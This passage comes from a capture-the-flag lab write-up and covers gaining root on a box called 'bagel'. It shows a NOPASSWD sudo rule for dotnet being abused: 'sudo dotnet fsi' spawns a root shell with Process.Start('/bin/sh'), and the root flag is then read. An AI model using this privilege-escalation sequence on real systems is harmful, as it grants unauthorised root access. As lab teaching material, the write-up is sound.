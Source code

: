 <h1>Root</h1>

<h2>GTFOBins</h2>

And in a poetic way to finish of this box, developer can use dotnet with sudo perms and [we can gain a root shell](https://gtfobins.github.io/gtfobins/dotnet/).

```bash
[developer@bagel static]$ sudo -l
.....
User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
[developer@bagel static]$ sudo dotnet fsi
.....
> System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
sh-5.2# cat /root/root.txt
1af901fd53459--------------------
```
